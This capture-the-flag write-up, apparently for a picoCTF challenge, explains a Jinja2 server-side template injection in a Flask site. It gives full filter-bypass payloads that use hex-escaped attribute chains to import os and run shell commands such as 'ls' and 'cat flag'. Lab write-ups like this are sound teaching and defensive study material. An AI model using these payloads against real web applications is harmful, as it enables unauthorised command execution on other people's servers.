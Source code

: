 # Challenge description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! 

# Soluce

When we open the website, we can see a form where we can enter a message. If we enter `{{7*7}}`, we can see the result `49`. So we can use the `Jinja2` template engine. We have to find the index of the `popen` method in the `__mro__` list of the `str` class. We can do this by using the following command: `{{''.__class__.__mro__[1].__subclasses__()}}`. This time it doesn't work.

This SSTI challenge demonstrates why blacklisting is a poor approach to input sanitization. Although direct access to dangerous attributes like `__class__`, `__base__`, or `__subclasses__` was blocked, we bypassed the filters by dynamically constructing strings (e.g., using '\x5f\x5fimport\x5f\x5f' instead of `__import__`). Leveraging Flask’s request object, we accessed the application’s global scope, retrieved Python’s builtins, used `__import__` to load the os module, and executed system commands via os.popen(). This exploit highlights how dangerous logic remains accessible through indirect paths, proving that blacklisting keywords is not a secure defense against SSTI.

Then we can use this command to execute a command:

```python
{{ request
  | attr('application')
  | attr('\x5f\x5fglobals\x5f\x5f')
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')
  | attr('popen')('ls')
  | attr('read')()
}}
```

We can see the result of the command:

```bash
__pycache__ app.py flag requirements.txt
```

Then we can use this command to read the flag:

```python
{{ request
  | attr('application')
  | attr('\x5f\x5fglobals\x5f\x5f')
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')
  | attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')
  | attr('popen')('cat flag')
  | attr('read')()
}}
```

So the flag is `picoCTF{sst1_f1lt3r_byp4ss_8b534b82}`.